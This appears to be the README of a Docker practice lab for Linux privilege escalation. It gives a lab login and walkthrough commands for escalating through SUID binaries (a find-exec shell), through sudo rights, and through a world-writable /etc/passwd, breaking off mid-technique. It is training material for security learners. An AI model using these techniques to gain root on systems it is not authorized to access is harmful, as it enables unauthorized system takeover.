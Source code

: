 # linux-elevate-hub
适用于linux提权的练习靶场（非系统漏洞提权）


## 构建镜像
```
docker build -t linux_elevate .
```
## 启动容器
```
docker run -d -p 10022:22 linux_elevate
```
## 演示
### 登陆普通用户ssh
> 用户名：zhangsan / 密码：123456
```
ssh zhangsan@127.0.0.1 -p10022
```
### 0x1. suid 提权
1. 搜索suid权限的文件
```
find / -perm -u=s -type f 2>/dev/null
```
<img width="713" alt="image" src="https://github.com/user-attachments/assets/623f6c84-99aa-4785-9fe0-ff7144f3bb5e">

2. 使用find命令进行 suid 提权
参考：https://gtfobins.github.io
```
find . -exec /bin/sh -p \; -quit
```
<img width="880" alt="image" src="https://github.com/user-attachments/assets/2499a2a7-cb50-4687-ba21-7777ff1f607a">

### 0x2. sudo 提权
1. 查看当前用户的sudo权限
```
sudo -l
```
<img width="1419" alt="image" src="https://github.com/user-attachments/assets/aaf6ff9f-7101-470c-8c14-98bb188bb716">

2. sudo 提权
```
sudo bash
```

### 0x3. 配置错误提权
#### 用户文件权限配置错误
> emmmm 这种提权就很迷
1. 查看 `/etc/passwd` 文件权限
```
ls -l /etc/passwd 
```
发现所有用户对 /etc/passwd 可写
